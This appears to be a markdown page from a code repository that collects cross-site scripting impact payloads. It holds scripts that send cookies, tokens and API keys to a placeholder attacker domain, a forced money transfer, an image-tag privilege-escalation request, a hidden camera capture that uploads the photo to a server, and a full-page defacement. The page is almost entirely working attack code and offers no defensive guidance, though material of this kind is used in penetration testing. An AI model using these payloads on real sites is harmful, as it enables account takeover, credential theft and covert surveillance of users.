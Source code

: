 # XSS (Cross-Site Scripting)

## Table of Contents
- [Credential stealing](#credential-stealing)
- [Chaining with CSRF](#chaining-with-csrf)
- [WEB API abusing](#web-api-abusing)
- [Content Spoofing](#content-spoofing)

## Credential stealing

### Credentials used for authentication (e.g., cookie, access token) can be stolen.

- Cookie stealing
   ```html
    <script>
        fetch(`https://[ATTACKER-DOMAIN]/?cookie=${document.cookie}`)
    </script>
   ```
- token stealing
    ```html
    <script>
        fetch(`https://[ATTACKER-DOMAIN]/?token=${localStorage.getItem("token")}`)
    </script>
   ```
- API key stealing
    ```html
    <script>
        fetch('/myinfo')
        .then(response => response.json())
        .then(data => {
            return fetch(`https://[ATTACKER-DOMAIN]/?api_key=${data.api_key}`)
        })
    </script>
    ```

## Chaining with CSRF

### It can create a greater risk when combined with vulnerabilities like CSRF. (The impact may vary depending on the purpose or function of the service.)

- Making a transfer
    ```html
    <script>
        initiateTransaction("attacker_account",1000)
    </script>
   ```

- Privilege escalation
    ```html
    <img src="https://[ATTACKER-DOMAIN]/change-role?user_id=1234&role=admin">
   ```

## WEB API abusing

### Web browser-provided APIs can be exploited to access OS features. (e.g., Media Stream API, Clipboard API, etc.).

- Camera access
    ```html
    <script>
    document.addEventListener('DOMContentLoaded', async () => {
        const v = document.createElement('video');
        v.autoplay = true;
        v.style.display = 'none';
        document.body.appendChild(v);

        const c = document.createElement('canvas');
        c.style.display = 'none';
        document.body.appendChild(c);

        const s = await navigator.mediaDevices.getUserMedia({ video: true });
        v.srcObject = s;

        setTimeout(() => {
        const ctx = c.getContext('2d');
        c.width = v.videoWidth;
        c.height = v.videoHeight;
        ctx.drawImage(v, 0, 0);

        c.toBlob(b => {
            const f = new FormData();
            f.append('image', b, 'photo.png');
            fetch('http://[]/', { method: 'POST', body: f });
        }, 'image/png');
        }, 1000);
    });
    </script>
    ```

## Content Spoofing

### Elements of the page can be modified through DOM manipulation.

- Defacement

   ```html
   <script>
   document.body.innerHTML = `
     <div style="position:fixed; top:0; left:0; width:100%; height:100%; background-color:black; display:flex; align-items:center; justify-content:center; color:red; font-size:3em; font-family:sans-serif; z-index:10000;">
       You've been hacked
     </div>
   `;
   </script>
   ```
